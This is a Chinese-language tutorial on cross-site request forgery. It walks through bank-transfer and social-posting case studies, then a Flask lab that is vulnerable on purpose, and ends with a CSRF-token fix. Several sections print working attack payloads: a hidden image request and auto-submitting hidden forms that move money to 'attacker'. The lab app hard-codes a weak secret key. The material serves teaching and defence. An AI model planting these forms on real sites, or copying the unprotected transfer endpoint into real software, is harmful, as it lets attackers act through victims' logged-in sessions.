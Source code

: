 # CSRF漏洞利用与防护的案例分析：实战演练文档

## 1. 概述

跨站请求伪造（CSRF）是一种常见的Web安全漏洞，攻击者通过诱导用户点击恶意链接或访问恶意页面，利用用户的身份在目标网站上执行未经授权的操作。本文将通过真实案例，深入分析CSRF漏洞的利用方式及防护措施，并提供实战演练步骤。

## 2. 原理

CSRF攻击的核心原理是利用了Web应用程序对用户身份的信任。攻击者通过构造一个恶意请求，诱导用户在已登录目标网站的情况下，自动发送该请求，从而在用户不知情的情况下执行某些操作。由于请求是用户浏览器自动发送的，服务器无法区分这是用户的正常操作还是攻击者的恶意行为。

## 3. 案例分析

### 3.1 案例一：银行转账CSRF攻击

**背景**：某银行网站存在CSRF漏洞，攻击者可以通过构造恶意请求，利用已登录用户的身份进行转账操作。

**攻击步骤**：
1. **构造恶意请求**：攻击者分析银行网站的转账功能，发现转账请求的URL为`http://bank.com/transfer?to=attacker&amount=1000`。
2. **诱导用户访问恶意页面**：攻击者创建一个包含以下代码的恶意页面，并将其发布在某个论坛或通过邮件发送给用户。
   ```html
   <img src="http://bank.com/transfer?to=attacker&amount=1000" style="display:none;">
   ```
3. **用户访问恶意页面**：用户点击链接或访问恶意页面时，浏览器会自动发送转账请求，由于用户已登录银行网站，请求会被服务器认为是合法操作。
4. **转账成功**：银行服务器处理请求，将1000元转账到攻击者的账户。

**防护措施**：
- **使用CSRF Token**：银行网站应在每个表单中包含一个随机生成的CSRF Token，并在服务器端验证该Token的有效性。
- **验证Referer头**：服务器可以检查请求的Referer头，确保请求来自合法的来源。
- **SameSite Cookie属性**：设置Cookie的SameSite属性为`Strict`或`Lax`，防止跨站请求携带Cookie。

### 3.2 案例二：社交网站CSRF攻击

**背景**：某社交网站存在CSRF漏洞，攻击者可以通过构造恶意请求，利用已登录用户的身份发布恶意内容。

**攻击步骤**：
1. **构造恶意请求**：攻击者分析社交网站的发布功能，发现发布请求的URL为`http://social.com/post?content=恶意内容`。
2. **诱导用户访问恶意页面**：攻击者创建一个包含以下代码的恶意页面，并将其发布在某个论坛或通过邮件发送给用户。
   ```html
   <form action="http://social.com/post" method="POST" style="display:none;">
     <input type="hidden" name="content" value="恶意内容">
     <input type="submit">
   </form>
   <script>document.forms[0].submit();</script>
   ```
3. **用户访问恶意页面**：用户点击链接或访问恶意页面时，浏览器会自动发送发布请求，由于用户已登录社交网站，请求会被服务器认为是合法操作。
4. **发布成功**：社交网站服务器处理请求，将恶意内容发布到用户的账户。

**防护措施**：
- **使用CSRF Token**：社交网站应在每个表单中包含一个随机生成的CSRF Token，并在服务器端验证该Token的有效性。
- **验证Referer头**：服务器可以检查请求的Referer头，确保请求来自合法的来源。
- **SameSite Cookie属性**：设置Cookie的SameSite属性为`Strict`或`Lax`，防止跨站请求携带Cookie。

## 4. 实战演练

### 4.1 环境搭建

**目标**：搭建一个存在CSRF漏洞的Web应用程序，并进行攻击演练。

**步骤**：
1. **搭建Web应用程序**：使用Python Flask框架搭建一个简单的Web应用程序，包含登录和转账功能。
   ```python
   from flask import Flask, request, render_template, redirect, url_for, session

   app = Flask(__name__)
   app.secret_key = 'supersecretkey'

   @app.route('/')
   def index():
       return 'Welcome to the Bank'

   @app.route('/login', methods=['GET', 'POST'])
   def login():
       if request.method == 'POST':
           session['logged_in'] = True
           return redirect(url_for('transfer'))
       return render_template('login.html')

   @app.route('/transfer', methods=['GET', 'POST'])
   def transfer():
       if not session.get('logged_in'):
           return redirect(url_for('login'))
       if request.method == 'POST':
           to = request.form['to']
           amount = request.form['amount']
           return f'Transferred {amount} to {to}'
       return render_template('transfer.html')

   if __name__ == '__main__':
       app.run(debug=True)
   ```
2. **创建登录页面**：在`templates`目录下创建`login.html`文件。
   ```html
   <form action="/login" method="POST">
     <input type="submit" value="Login">
   </form>
   ```
3. **创建转账页面**：在`templates`目录下创建`transfer.html`文件。
   ```html
   <form action="/transfer" method="POST">
     <input type="text" name="to" placeholder="Recipient">
     <input type="text" name="amount" placeholder="Amount">
     <input type="submit" value="Transfer">
   </form>
   ```

### 4.2 攻击演练

**目标**：利用CSRF漏洞，模拟攻击者进行转账操作。

**步骤**：
1. **构造恶意页面**：创建一个包含以下代码的恶意页面`csrf_attack.html`。
   ```html
   <form action="http://127.0.0.1:5000/transfer" method="POST" style="display:none;">
     <input type="hidden" name="to" value="attacker">
     <input type="hidden" name="amount" value="1000">
     <input type="submit">
   </form>
   <script>document.forms[0].submit();</script>
   ```
2. **启动Web应用程序**：运行`app.py`，启动Web应用程序。
   ```bash
   python app.py
   ```
3. **用户登录**：访问`http://127.0.0.1:5000/login`，点击“Login”按钮，模拟用户登录。
4. **用户访问恶意页面**：访问`csrf_attack.html`，浏览器会自动发送转账请求，由于用户已登录，请求会被服务器认为是合法操作。
5. **转账成功**：服务器处理请求，返回“Transferred 1000 to attacker”的响应，模拟转账成功。

### 4.3 防护演练

**目标**：在Web应用程序中实现CSRF防护，防止攻击。

**步骤**：
1. **生成CSRF Token**：在`app.py`中添加生成和验证CSRF Token的代码。
   ```python
   import os
   import binascii

   def generate_csrf_token():
       return binascii.hexlify(os.urandom(24)).decode('utf-8')

   @app.route('/transfer', methods=['GET', 'POST'])
   def transfer():
       if not session.get('logged_in'):
           return redirect(url_for('login'))
       if request.method == 'POST':
           csrf_token = request.form.get('csrf_token')
           if csrf_token != session.get('csrf_token'):
               return 'Invalid CSRF Token', 403
           to = request.form['to']
           amount = request.form['amount']
           return f'Transferred {amount} to {to}'
       session['csrf_token'] = generate_csrf_token()
       return render_template('transfer.html', csrf_token=session['csrf_token'])
   ```
2. **修改转账页面**：在`transfer.html`中添加CSRF Token字段。
   ```html
   <form action="/transfer" method="POST">
     <input type="hidden" name="csrf_token" value="{{ csrf_token }}">
     <input type="text" name="to" placeholder="Recipient">
     <input type="text" name="amount" placeholder="Amount">
     <input type="submit" value="Transfer">
   </form>
   ```
3. **重新启动Web应用程序**：运行`app.py`，启动Web应用程序。
   ```bash
   python app.py
   ```
4. **用户登录**：访问`http://127.0.0.1:5000/login`，点击“Login”按钮，模拟用户登录。
5. **用户访问恶意页面**：访问`csrf_attack.html`，浏览器会自动发送转账请求，但由于缺少有效的CSRF Token，服务器会返回“Invalid CSRF Token”的响应，模拟防护成功。

## 5. 总结

通过以上案例分析和实战演练，我们深入了解了CSRF漏洞的利用方式及防护措施。在实际开发中，开发者应始终关注Web应用程序的安全性，采取有效的防护措施，防止CSRF攻击的发生。

---

*文档生成时间: 2025-03-11 12:12:30*
